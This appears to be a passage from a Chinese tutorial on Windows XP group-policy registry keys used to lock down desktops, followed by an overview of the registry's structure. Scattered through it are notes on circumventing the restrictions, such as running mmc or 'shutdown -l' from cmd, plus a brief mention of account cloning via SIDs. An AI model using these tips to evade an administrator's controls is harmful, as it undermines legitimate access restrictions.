
- **e、从「开始」菜单中删除“运行”菜单**

注册表键值：在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，新建 DWORD 值 `NoRun=1`。

描述：从「开始」菜单、IE 和“任务管理器”中禁用“运行”命令。启用该策略后，将得到相应限制效果。

- e-1、“运行”命令从“开始”菜单删除，是真正的删除，而不是单纯的隐藏；
- e-2、“任务管理器”上的“新任务”命令将变灰为不可用；
- e-3、阻止用户在地址栏访问共享目录与本地磁盘，访问会出现限制提示；同时 Win+R 也会被阻止。


- **f、从「开始」菜单中删除「网上邻居」图标**

注册表键值：在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，新建 DWORD 值 `NoStartMenuNetworkPlaces=1`。

描述：启用后在“开始”菜单中无“网上邻居”，但仍可从其他路径进入。


- **g、删除「开始」菜单上的「注销」**

注册表键值：在 `...\Policies\Explorer` 下新建 `StartMenuLogOff=1`。

描述：删除开始菜单底部“注销”命令，但任务管理器的用户选项卡仍可使用“注销”按钮。

- **h、删除和阻止访问「关机」命令**

注册表键值：在 `...\Policies\Explorer` 下新建 `NoClose=1`。

描述：删除“开始”菜单的“关闭”命令，并使任务管理器关机菜单中的“待机/关闭/重新启动”不可用；但不禁止通过其他程序关机（如 `shutdown`）。


- **i、阻止更改「任务栏和开始菜单」设置**

注册表键值：在 `...\Policies\Explorer` 下新建 `NoSetTaskbar=1`。

描述：删除“开始菜单→设置”中的“任务栏和开始菜单”命令，并同时限制相关访问。


- **j、阻止访问任务栏的上下文菜单**

注册表键值：在 `...\Policies\Explorer` 下新建 `NoTrayContextMenu=1`。

描述：禁用任务栏及开始按钮、开始菜单面板的右键菜单；桌面、资源管理器与 IE 的右键不受影响。

- **k、不要保留最近打开文档的记录**

注册表键值：在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下新建相关 DWORD 值（下文续）。DWORD 值 `NoRecentDocsHistory=1`。

描述：在“开始”菜单→文档中不显示最近打开的文档列表，如图 2-2-62。同时系统不再设置最近打开文档的快捷方式。这个最近打开的文档目录存在于 `C:\Documents and Settings\Administrator\Recent` 下。`Recent` 是系统隐藏目录，需要从“文件夹选项”中设置后才可以显示。一个有意图的攻击者可以通过这个目录获得你的一些信息，所以清除该目录下你打开过的文档信息也是自我防护的一个方面。

- **l、锁定任务栏**  
  注册表键值：在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，新建 DWORD 值 `LockTaskbar=1`。  
  描述：任务栏默认出现在桌面的底部，该策略阻止用户将任务栏拖到其他地方（Windows 默认可以把任务栏拖拽到桌面的上、左、右三个地方），同时锁定快速启动栏和用户任务栏上存在的任何其他工具栏。工具栏的位置被锁定，用户不能用任务栏上下文菜单显示和隐藏各种工具栏。

- **m、从系统通知区域删除时钟**  
  注册表键值：在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，新建 DWORD 值 `HideClock=1`。  
  描述：在任务栏的最右侧隐藏系统时间，但还是可以通过“控制面板”的“日期和时间”来打开。有一些程序在运行前会检查系统时间，如果系统时间和程序本身运行需要的时间范围不匹配，就会拒绝运行。


## 2.2.12、桌面

- **a、隐藏和禁用桌面上的所有项目**  
  注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoDesktop` 下，新建 DWORD 值并赋值为 1。  
  描述：仅删除桌面的所有图标，不能阻止用户通过其他方法启动程序或打开图标和快捷方式。我们平常看到桌面上什么东西都没有，差不多就是这个策略做的限制。

- **b、删除桌面上的“我的文档”图标**  
  注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\NonEnum` 下，新建 DWORD 值 `{450D8FBA-AD25-11D0-98A8-0800361B1103}` 并赋值为 1。  
  描述：在资源管理器（包括桌面）和标准的打开对话框中删除“我的文档”图标，但是不能阻止用户通过其他方式访问“我的文档”，比如“开始”菜单的文档菜单中。


- **c、删除桌面上的“我的电脑”图标**  
  注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\NonEnum` 下，新建 DWORD 值 `{20D04FE0-3AEA-1069-A2D8-08002B30309D}` 并赋值为 1。  
  描述：该策略将隐藏桌面的“我的电脑”图标；隐藏非经典开始菜单样式下的“我的电脑”；隐藏资源管理器左侧目录树中“我的电脑”和 Web 视图（即资源管理器的地址栏中）的“我的电脑”链接，如图 2-2-64。


但该策略不会隐藏驱动器和目录下的内容，而在使用“向上”按钮转到“我的电脑”时，你会发现“我的电脑”是一个空文件夹，如图 2-2-65。

虽然“我的电脑”里的内容隐藏得比较彻底，但是我们仍然可以利用命令行或者“运行”进入任意驱动器和任意已知目录。

- **d、从桌面删除“回收站”图标**  
  注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\NonEnum` 下，新建 DWORD 值 `{645FF040-5081-101B-9F08-00AA002F954E}` 并赋值为 1。  
  描述：从资源管理器和标准的打开对话框中删除“回收站”图标，但是不能阻止用户通过其他方式访问“回收站”文件夹的内容。

“回收站”存在于每个驱动器下，在“文件夹选项”里设置：

> 选中“显示系统文件夹的内容”  
> 不选“隐藏受保护的操作系统文件”  
> 选择“显示所有文件和文件夹”

确定后在每个本地硬盘下就会多一个 `Recycled` 目录，也就是“回收站”了，你可以顺利进入。

- **e、从“我的电脑”上下文菜单中删除“属性”**  
  注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，新建 `DWORD` 值 `NoPropertiesMyComputer` 并赋值为 `1`。  
  描述：此策略会隐藏“我的电脑”的“属性”上下文菜单项；右键可见但不可用，`Alt+Enter` 或双击鼠标也无响应。

- **f、隐藏桌面上“网上邻居”图标**  
  注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，新建 `DWORD` 值 `NoNetHood` 并赋值为 `1`。  
  描述：仅从桌面删除“网上邻居”图标。

- **g、隐藏桌面上的 Internet Explorer 图标**  
  注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，新建 `DWORD` 值 `NoInternetIcon` 并赋值为 `1`。  
  描述：从桌面及任务栏“快速启动”中删除 IE 图标，但不阻止通过其他方式（如“运行”输入 `iexplore`）启动。

## 2.2.13、控制面板

- **a、禁止访问控制面板**  
  注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，新建 `DWORD` 值 `NoControlPanel` 并赋值为 `1`。  
  描述：停用“控制面板”程序及全部控制面板项目，同时移除“开始→设置”和资源管理器中的“控制面板”；尝试打开时会出现阻止提示。


但这仅是防止直接打开。仍可通过部分程序间接打开“控制面板”中的项目（如 IE 的 Internet 选项、资源管理器中的“文件夹选项”等）；并非所有项目都可间接打开，例如“我的电脑”属性仍会被阻止。

- **b、隐藏指定的控制面板程序**  
  注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，新建 `DWORD` 值 `DisallowCpl` 并赋值为 `1`。


描述：允许用户自定义“控制面板”中哪些项目被隐藏（仅隐藏）。启用该策略后，“不允许的控制面板程序的列表”后的“显示”按钮可用，可添加不允许的控制面板程序，如图 2-2-67。

### 1 选项权限限制

若要禁止一个文件，需要添加的文件名为 `*.cpl`，即控制面板扩展文件。可以添加的文件列表在 `%systemroot%\system32` 下搜索可以得到。若要禁止一个文件夹，就输入该文件夹名，如“字体”。这些禁止项目可在注册表 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowCpl` 下新建字符串值，数据值为项目名称（如 `timedate.cpl`）。

字符串值名称按序号命名为 1、2、3……。该策略仅隐藏项目而非禁用。例如添加 `timedate.cpl` 后，“日期和时间”控制面板会被隐藏，但仍可通过任务栏时间入口打开属性。

- **c、只显示指定的控制面板程序**  
  注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下新建 `DWORD` 值 `RestrictCpl=1`。该策略与上一策略相反，用于仅显示指定项目；若两者同时启用，将忽略该策略设置。对应项目在 `...\Explorer\RestrictCpl` 下配置。


## 2.2.14、控制面板\添加或删除程序

- **a、删除“添加或删除程序”**  
  注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Uninstall` 下新建 `DWORD` 值 `NoAddRemovePrograms=1`。  
  描述：阻止用户打开“添加或删除程序”。启用后在控制面板或“运行”中打开该项会提示错误（如图 2-2-69）。该设置优先级需高于当前文件夹其他设置，且不能阻止通过其他方式安装/卸载程序。

- **b、隐藏“更改或删除程序”页面**  
  注册表键值：`...\Policies\Uninstall` 下新建 `DWORD` 值 `NoRemovePage=1`。  
  描述：从“添加或删除程序”中移除“更改或删除程序”按钮（图 2-2-70），用户无法通过该子项卸载、修复或添加/删除已安装程序。

- **c、隐藏“添加新程序”页面**  
  注册表键值：`...\Policies\Uninstall` 下新建 `DWORD` 值 `NoAddPage=1`。  
  描述：启用后“添加或删除程序”中无“添加新程序”项（图 2-2-71）。


## 2.2.15、控制面板\显示

- **a、屏幕保护程序**  
  注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Control Panel\Desktop` 下新建字符串 `ScreenSaveActive=1`。  
  描述：启用或禁用屏幕保护程序。

- **b、密码保护屏幕保护程序**  
  注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Control Panel\Desktop` 下新建字符串 `ScreenSaverIsSecure=1`。  
  描述：强制屏幕保护使用密码保护，并禁用“显示”中“屏幕保护程序”页的“恢复时使用密码保护”复选框，防止用户更改该设置（图 2-2-72）。


一些网吧客户喜欢恶作剧，把屏幕保护程序开启并设置一个不为人知的密码，有的管理员对此很郁闷。不配置该策略或者干脆禁用上一策略可以解决这个问题。

## 2.2.16、网络\网络连接

- **a、为管理员启用 Windows 2000 网络连接设置**  
  注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Network Connections` 下，新建 `DWORD` 值 `NC_EnableAdminProhibits` 并赋值为 `1`。  
  描述：阻止管理员对网络连接进行设置；启用后仅特定授权管理员可设置网络连接，并激活“网络连接”目录下相关策略。

- **b、禁止访问 LAN 连接组件的属性**  
  注册表键值：`...\Network Connections` 下，新建 `DWORD` 值 `NC_LanChangeProperties` 并赋值为 `0`。  
  描述：禁止用户更改 LAN 连接属性；“本地连接”属性中“Internet 协议 (TCP/IP)”等相关项目不可用（见图 2-2-73）。

- **c、禁用 TCP/IP 高级配置**  
  注册表键值：`...\Network Connections` 下，新建 `DWORD` 值 `NC_AllowAdvancedTCPIPConfig` 并赋值为 `0`。  
  描述：禁用“Internet 协议 (TCP/IP) → 高级”按钮，用户不能打开高级 TCP/IP 设置页修改 IP、DNS、WINS 等（见图 2-2-74）。

- **d、禁止到“高级”菜单中“高级设置”访问**  
  注册表键值：`...\Network Connections` 下，新建 `DWORD` 值 `NC_AdvancedSettings` 并赋值为 `0`。  
  描述：阻止访问“网络连接”中的“高级配置/高级设置”；启用后该选项变灰（见图 2-2-75）。

- **e、禁止访问 LAN 连接的属性**  
  注册表键值：`...\Network Connections` 下，新建 `DWORD` 值 `NC_LanProperties` 并赋值为 `0`。  
  描述：表现为“本地连接”属性不可用（见图 2-2-76）。

- **f、禁止删除远程访问连接**  
  注册表键值：`...\Network Connections` 下，新建 `DWORD` 值 `NC_DeleteConnection` 并赋值为 `0`。  
  描述：用户无法删除任何远程访问连接；相关上下文菜单与文件菜单删除项被禁用。

- **g、删除所有用户的远程访问连接**  
  注册表键值：`...\Network Connections` 下，新建 `DWORD` 值 `NC_DeleteAllUserConnection` 并赋值为 `1`。  
  描述：允许任何用户删除远程访问连接。


- **h、启用/禁用 LAN 连接的能力**  
  注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Network Connections` 下，新建 `DWORD` 值 `NC_LanConnect` 并赋值为 `1`。  
  描述：允许用户启用或禁止本地连接。启用策略则可以启用或禁用，禁用则不可以。禁用策略后“本地连接”属性中的“禁用”按钮将变灰，如图 2-2-77。


## 2.2.17、系统

- **a、禁止访问命令提示符**  
  注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System` 下，新建 `DWORD` 值 `DisableCMD` 并赋值 `1`，为禁用命令提示符同时停用批处理；`2` 为不停用批处理。  
  描述：停用 Windows 的命令行程序 `cmd.exe`，一般启用该策略时都要同时禁止批处理文件的运行。启用策略后打开命令提示符将出现如图 2-2-78 的提示；运行批处理文件将出现图 2-2-79 的提示阻止运行。


```text
C:\DOCUMENT~1\ADMINI~1>dir
The command prompt has been disabled by your administrator.
Press any key to continue . . .

C:\DOCUMENT~1\ADMINI~1>ver
The command prompt has been disabled by your administrator.
Press any key to continue . . .
```

大家可以对比这两种提示的区别……（正文讨论 `command.exe` 仍可运行、内部外部命令与批处理限制差异）。

- **b、禁止访问注册表编辑器**  
  注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 下新建 `DWORD` 值 `DisableRegistryTools` 并赋值为 `2`，同时禁用注册表脚本（`*.reg` 文件），`1` 为不禁用。  
  描述：可同时禁用注册表导入文件。Windows XP 下常见注册表编辑器包括 `%systemroot%` 下的 `regedit.exe` 和 `%systemroot%\system32` 下的 `regedt32`，启用策略后均被禁止访问。


导入 reg 文件时会出现提示（图 2-2-81）；启用策略后运行注册表编辑器同样会被阻止（正文说明其限制范围与体验）。

- **c、只运行许可的 Windows 应用程序**  
  注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下新建 `DWORD` 值 `RestrictRun` 并赋值为 `1`。  
  描述：与“只显示指定的控制面板程序”类似。策略可指定允许运行的程序；未特别定义时，部分文件类型与程序将受限。正文还讨论了资源管理器启动限制、任务管理器与“运行”中的行为差异，以及实验结论。

义：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\RestrictRun` 新建字符串，名称由数值数据的英文字符顺序决定为 1、2、3……，而数值数据就是你添加的允许运行的程序名称了，如图 2-2-83。

### d、不要运行指定的 Windows 应用程序

注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，新建 DWORD 值 `DisallowRun`，并赋值为 1。

描述：防止用户访问明确禁止的 Windows 应用程序，和上一个策略正好相反，而该策略也是最常被管理员用到的。他们通常会禁止 mmc.exe，因为禁止了 mmc.exe 后组策略就被禁止访问了。但是一般情况下微软是不会把事情做绝的，总有个接口可以恢复吧！命令行就是这样一个接口，不管你从哪里运行 mmc 失败，在 cmd.exe 下均可以成功，当然是在命令提示符被允许访问的情况下了。

被指定禁止访问的 Windows 程序在注册表的这个项下定义：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun`，字符串名称和数值数据同上一策略。


## 2.2.18、系统\Ctrl+Alt+Del 选项

- **a、删除“任务管理器”**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 下新建 DWORD 值 `DisableTaskMgr`，并赋值为 1。
  - 描述：防止用户运行“任务管理器”（taskmgr.exe）。启用策略后使用 Ctrl+Alt+Del 快捷键，在“运行”或命令提示符下输入“taskmgr”都会出现以下提示阻止访问，如图 2-2-84。
  - 我们通常用“任务管理器”来结束应用程序进程，它还可以创建新任务，就像“运行”一样；可以实现关机、重启、注销；它还可以查看当前计算机的性能。

- **b、删除“锁定计算机”**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 下新建 DWORD 值 `DisableLockWorkstation`，并赋值为 1。
  - 描述：防止用户锁定系统。该设置是给管理员同志看的，呵呵！还是为了防止客户的恶作剧，在一些加了系统密码的客户机上使用锁定计算机将增加管理员的工作量。

- **c、删除“更改密码”**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 下新建 DWORD 值 `DisableChangePassword`，并赋值为 1。
  - 描述：防止用户更改 Windows 密码。

- **d、删除注销**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下新建 DWORD 值 `NoLogoff`，并赋值为 1。
  - 描述：防止用户注销 Windows。微软官方描述：这个设置不允许用户使用任何方法从系统注销，包括从命令行运行的程序，如脚本。该设置同时还停用或删除所有注销用户的菜单项和按钮。
  - 但是经实验，“开始”菜单中的“注销 xx”是不会消失的，并且可用，在 cmd 下使用 `shutdown -l` 仍然可以注销当前用户。唯一让人可以接受的是，在“任务管理器”的“关机”菜单中“注销 XX 用户”的命令变灰了，如图 2-2-85。不明白是怎么回事，也许需要重新启动才会生效吧，但是“任务管理器”中的设置怎么生效了呢？


## 2.3、小结

本节的内容比较多，也算一份比较全的组策略和注册表键值的参考资料了。我们不可能把那么多的策略和注册表路径都记住，当你遇到类似的限制的时候，只要翻着本章内容，通过大标题相信很快就能让你找到想要的答案。

## 3、注册表简介

## 3.1、注册表简述

### 3.1.1、注册表的由来

计算机以及操作系统是非常灵活的，它们允许用户根据自己的意愿对软件或硬件进行各种各样的配置，当然这需要用户需要配置的对象提供接口。在 Microsoft 早期的图形界面系统中（比如 win3.x），对软硬件的配置需要通过对 .ini 文件的修改。**system.ini** 和 **win.ini** 这两个文件包含了操作系统所有的控制功能和应用程序信息。system.ini 管理计算机硬件，win.ini 管理桌面和应用程序。因为这两个文件有大小的限制，所以程序员添加辅助的 ini 文件来控制更多的程序。但是随着程序越来越多地被安装，需要在 ini 文件中增加更多的参数项。但是如果删除了一个应用程序，它添加的参数项却不会消失，所以 win.ini 和 system.ini 文件会越来越大，直至达到极限。为解决这个问题，软件厂商开始编写支持自己产品的 ini 文件，再去指向上面两个文件。但是修改 ini 文件终究很不方便，里面的项目没有注释，用户很难看懂，而且每个软件（包括硬件的驱动程序）都有自己的配置文件，它们分散在系统的各个角落，管理起来很不方便。

为了克服上述这些问题，在 Windows 95 及其后继版本中，采用了一种叫做“注册表”的数据库来统一进行管理，将各种信息资源集中起来并存储各种配置信息。第一次听说到“注册表”这个词还是在高中的时候，那时候一个老师说它是一个数据库，我就想不通了。后来的事实证明了，姜还是老的辣！跟我们平常听到的数据库不一样，这是一个比喻。把注册表比喻成数据库其实也是很贴切的，它是很多软件配置信息的“数据库”，当你安装一个软件的时候系统软件提示你有写注册表操作，你明白是什么意思了吧！

注册表包含在 Windows 目录下两个文件 **system.dat** 和 **user.dat** 文件里，还有它们的备份 **system.da0** 和 **user.da0**。它存储下面这些内容：软、硬件的有关配置和状态信息，应用程序和资源管理器外壳启动的初始条件，首选项和卸载数据，计算机整个系统的设置和各种许可，文件扩展名与应用程序的关联，硬件的描述、状态和属性，计算机性能记录和底层的系统状态信息，以及各类其他数据。

### 3.1.2、注册表与 INI 文件的不同

它们的不同之处有以下几点：

1. 注册表采用了二进制形式登录数据；
2. 注册表支持子键，各级子关键字都有自己的“键值”；
3. 注册表中的键值项可以包含可执行代码，而不是简单的字串；
4. 在同一台计算机上，注册表可以存储多个用户的特性。

注册表的特点有：

1. 注册表允许对硬件、系统参数、应用程序和设备驱动程序进行跟踪配置，这使得修改某些设置后不用重新启动成为可能。
2. 注册表中“登录”的硬件部分数据可以支持 Windows XP 的即插即用特性。当 XP 检测到机器上的新设备时，就把有关数据保存到注册表中。另外，还可以避免新设备与原有设备之间的资源冲突。
3. 管理人员和用户通过注册表可以在网络上检查系统的配置和设置，使得远程管理得以实现。

## 3.2、注册表的数据结构

### 3.2.1、注册表编辑器

在前面对注册表已经有了一个基本认识，大家可以感觉到注册表同样是很庞大复杂的（数据库嘛！），但是它把各种信息安排得很合理，这样能有效地提高工作效率。由于注册表是二进制的数据库文件，用户无法直接读取和修改它。因此微软给我们提供了工具来编辑注册表，即注册表编辑器。Windows XP 为我们提供了两个：regedit.exe 和 regedt32.exe，其他 NT 系统同样如此。regedit.exe 位于 Windows 目录下，而 regedt32.exe 位于 system32 目录下，它们都是系统程序，我们可以在“运行”中直接输入名称打开。


讲解也是在 regedit.exe 的平台上。其实我们平常说的注册表就是指的注册表编辑器，毕竟基本没有机会去碰那两个 dat 文件。

### 3.2.2、注册表结构

在“运行”中输入 regedit，打开注册表编辑器，图 3-2-1 给出了注册表各项目的名称。大家可以看到 winXP 的注册表有五大根键：**HKEY_CLASSES_ROOT、HKEY_CURRENT_USER、HKEY_LOCAL_MACHINE、HKEY_USERS 和 HKEY_CURRENT_CONFIG**。与 win98 相比，XP 的注册表去掉了 HKEY_DYN_DATA 根键。下面将详细介绍每一根键的内容（括号中内容为根键的简写）。

### a、HKEY_CLASSES_ROOT（HKCR）

HKEY_CLASSES_ROOT 是系统中控制所有数据文件的项，它包括了所有文件扩展及所有和执行文件相关的信息，就是说它决定了当一个文件被双击时起反应的相关应用程序。在 Windows 中，每个对象（程序、文件或者目录）都有与之对应的对象，而它们的对应通过后缀（扩展名）传递，即文件类型。这种文件类型在 HKEY_CLASSES_ROOT 下进行添加，并指向一个程序，比如文本文件（后缀为 .txt）对应的是记事本 notepad.exe。这是该根键的一个最重要的作用，它还可以：关联一个对象类型和一种图标；关联一个对象类型和一个命令行动作；定义对象类型相关菜单选项和定义每一个对象类型属性选项。


HKEY_CLASSES_ROOT 下的子项大致可分为两类：以 .xxx 扩展名形式和以各种类型的文件信息为项，如图 3-2-2。后缀名子项中定义的是该后缀所对应的应用程序以及该程序的一些信息，比如版本号。它们还以 xxxFile 的类型定义了自己的类型，为配合后面的注册表子项完成文件和程序的关联。第二类子项还可以细分为以 xxxFile 形式和以各种程序的信息、子模块功能为内容的子项。一般的 xxxFile 子项下会包含以下几个子项：**DefaultIcon、Shell 和 ShellEx**。还可能包含其他项，这要取决于这个文件对应的程序了，比如 VBSFile 中包含的 ScriptEngine 和 ScriptHostEncode；还有少数项包含 CLSID 子项，比如 AVIFile。DefaultIcon 用于设置该类型文件的图标，Shell 下一般包括 open\command，它告诉计算机这个文件由哪个程序打开，并且这是一个命令，可以加参数运行，如图 3-2-3。


有时候一个文件可以由多个程序打开，这种情况下 Shell 下可能有多个 open 子项，以 open、open2 排列，VBSFile 和 VBEFile 就是这样的。ShellEx 的子项包含了数量不等的 CLSID，这些 CLSID 是为该对象类型执行 OLE 和 DDE 功能的。这里再以 VBSFile 的 Shell 项为例，该键下除了有 open 键，还有 **Edit** 和 **Print** 键，它们对应的是 vbs 文件的上下文菜单中的编辑和打印由哪个程序执行，默认是 notepad.exe，直接点击“编辑”就会用记事本打开 vbs 文件。而如果你将它改为其他程序，那你在使用编辑功能的时候 Windows 将弹出“打开方式”的对话框供用户选择，如图 3-2-4。

许多音频文件类型，比如 AVIFile，它们的子项下一般都有 play 键，它指定用于执行播放命令的程序；它还包含有一些类标识，同样也有缺省编辑程序的信息。还有一类子键，它们有的是成对出现的，比如 UserAccounts.PassportManager 和 UserAccounts.PassportManager.1；有的却毫无规则。它们的项名称有的是程序名或者其中一个功能模块；有的被描述为某种对象，比如“Passport 管理器对象”；有的被描述为一种功能。但相同的是，它们都有一个重要的子项 CLSID（大部分子项都有）。CLSID 是一个 32 位的 16 进制字符串，它在 Windows 中唯一存在，不可能有重复。CLSID 子键为对象类型提供了 OLE 和 DDE 信息和图标，它是标识所有列出的图标、应用程序、目录、文件类型等对象的数字。

### b、HKEY_CURRENT_USER（HKCU）

该根键用于管理和保存当前登录用户的各种配置，它们包括：桌面以及各种应用程序的外观、应用程序的各种参数、设备的驱动程序参数、用户的个性化配置、权限、网络连接等。下面有主次地对各子项进行介绍。AppEvents 它包含了各种应用事件的事件名称、描述以及各种系统功能的声音列表。其下面又包含两个子键 **EventLabels**（事件列表）和 **Schemes**（事件声音列表）。它们是类似于开关机、打开程序、电量不足的事件，然后在 `HKEY_CURRENT_USER\AppEvents\Schemes\Apps` 定义了各种事件的响应声音。

Console 这个键保存了命令提示符的选项、布局、淡屏颜色和字体设置。

Control Panel 该键保存控制面板下的项目。Accessibility 保存的是辅助功能选项，Appearance 保存的是显示选项，Schemes 子键保存了默认的外观方案，Bluetooth 对应蓝牙设备，Color 保存了 Windows 中的颜色，它们的数据数值代表颜色，以 RGB（Red、Green、Blue，红、绿、蓝）的组合存在。比如说，黑色是 0 0 0，意思就是红色值是 0，绿色值是 0，蓝色值也是 0；相反白色就是 255 255 255，其他颜色都是 RGB 值合成的。下面的 Current、Cursors、Custom Colors 和 Desktop 子项保存的是外观方面的设置。Sound 键决定了在错误时系统是否发出响声。

Environment 这个键保存了临时文件位置即 TEMP 的环境变量，如图 3-2-5。

Keyboard Layout 该键保存键盘的布局。

Software 系统安装的程序列表被保存在这个项下，它的子项以安装程序的名称为名。其中一个子项 Microsoft 保存了微软的应用程序和一些系统程序以及设置；如果有新的程序被安装或更改了相关系统设置，这个键将被更新。Microsoft 下有 Windows 和 Windows NT 两个子键，它们保存了几乎所有的 Windows 系统配置信息。不同的是，前者只保存有关 Windows 的相关设置（相对 NT 系统），而后者只关心 Windows NT 的相关内容，比如权限。


图 3-2-5 保存了用户环境变量


图 3-2-6 系统环境变量。

有关我们常常碰到的限制很多都保存在 Windows 键下，在前面大家已经发现了吧。所以学习这个项是很有必要的哦！

Volatile Environment 它保存了一部分的系统环境变量，如图 3-2-6。

### c、HKEY_LOCAL_MACHINE（HKLM）

从根键的字面意思我们可以猜到它保存了计算机的信息，而因为有了 HKEY_CURRENT_USER 键，我们可以断定该键与具体用户无关，它针对系统中的所有用户，是公共的。这些信息包括应用软件、驱动程序和硬件信息，比如路径、注册或未注册的标识、版本号等。它包含以下五个子键：


图 3-2-7 保存了用户名。


图 3-2-8 保存了用户组。

- **HARDWARE**：它是用来保存计算机硬件信息的，每次系统引导时 HARDWARE 都要重新创建，这样向系统中添加新硬件就比较容易了。我这里它下面有 4 个子项，其中重要的有三个：DESCRIPTION 用于存放中央处理器、浮点处理器和一个多功能适配器的信息；DEVICEMAP 中保存了一些和键盘以及其他一些与外部设备有关的接口信息；RESOURCEMAP 保存了有关输入输出设备和驱动程序的一些信息。
- **SAM**：SAM 是 Security Account Management 的缩写，即安全账户管理。系统把账户信息存储在 SAM 中。SAM 中的信息是不可访问的，这是因为 SAM 键设置了权限，只要把相应权限给用户就可以对该键进行操作了。在 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names` 下保存了系统中已存在的所有用户名；而 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Builtin\Aliases\Names` 下则保存了系统中的所有组。SAM 键下还保存了每个用户的 SID（安全标识符），克隆账户就是通过修改特定用户的 SID 实现的。保护好 SAM 键很重要。
- **SECURITY**：其中的信息与本地安全性和用户权限有关，其中也包括了 SAM 信息的副本。
- **SOFTWARE**：该项包含了所有已经安装的系统软件和应用软件的信息，和 HKEY_CURRENT_USER 中的 Software 很相似，但是优先级没有后者高。这些项中存储了软件的参数选择信息、配置信息、最近使用文件列表，以及其他一些应用程序可以修改的项目。这个项下同样存在 Microsoft 子项。
- **SYSTEM**：该子键存放的是启动时所使用的信息和修复系统时所需信息，其中包括各个驱动程序的描述信息和配置信息等。例如 `HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services` 下保存的是系统服务的信息。

### d、HKEY_USERS（HKU）

这是一个和用户有关的根键，其下多重子键中的信息和 HKEY_CURRENT_USER 中的信息基本相同，其中 .Default 子项与 HKEY_CURRENT_USER 内容完全相同；任何对前者的修改都会导致后者内容的变化，反之亦然。HKEY_USERS 还有一些类似 S-1-5-18 和 S-1-5-21-... 的子项，后面就是当前登录用户的 SID。对这个键的任何修改只对当前用户产生影响，这是为了配合 Windows 的多用户功能而设置的。

### e、HKEY_CURRENT_CONFIG（HKCC）

该键保存了当前的硬件配置信息，是 HKEY_LOCAL_MACHINE 的一个映射。它的信息分别来自于 HKEY_LOCAL_MACHINE\SYSTEM 和 HKEY_LOCAL_MACHINE\SOFTWARE，但它只保存了其中的一部分信息。一般情况下只有一个硬件配置文件；当存在多个配置文件时，Windows 在启动时会提示选择配置文件。除了上述根键之间的对应关系外，HKEY_CLASSES_ROOT 也是 HKEY_LOCAL_MACHINE\SOFTWARE\Classes 的映射。

| 数据类型 | 说明 |
|---|---|
| REG_BINARY | 二进制数据 |
| REG_DWORD | 32 位数值 |
| REG_SZ | 字符串 |
| REG_EXPAND_SZ | 可扩展字符串 |
| REG_MULTI_SZ | 多字符串 |
| ... | （表中还有更多类型） |

### 3.2.3、注册表的数据类型

注册表中包含着不同类型的数据，这些数据注册表工具大部分都是支持的，但是应用程序对有些类型的数据支持能力有限。现有的注册表数据类型如图 3-2-9。

其中的大部分数据类型我们平常很少接触，比较常碰到的类型有 **REG_BINARY** 二进制数值、**REG_DWORD** DWORD 值、**REG_SZ** 字符串值、**REG_EXPAND_SZ** 可扩充字符串值和 **REG_MULTI_SZ** 多字符串值，它们也是可以直接在 regedit.exe 上直接新建的数据类型。

**REG_BINARY**：未处理的二进制数据。虽然它的名称是二进制值，但是它却用十六进制表示，二进制值没有长度限制，一般存储的是硬件组件信息。

**REG_DWORD**：一般存储程序的参数，管理程序某个功能是否开启。它由一个 32 位（4 字节）的数字组成，可以使用二进制、十六进制或者十进制表示。

**REG_SZ**：字符串值，一般用来表示文件描述、硬件标识等，通常由字母和数字组成。

**REG_EXPAND_SZ**：长度可变的字符串。当字符串数据中需要带有环境变量时可以使用该类型数据，比如路径中包含 `%systemroot%`。

**REG_MULTI_SZ**：多重字符串。包含可被用户读取的列表或多值，通常为该类型，项目之间用空格、逗号或其他标记分开。

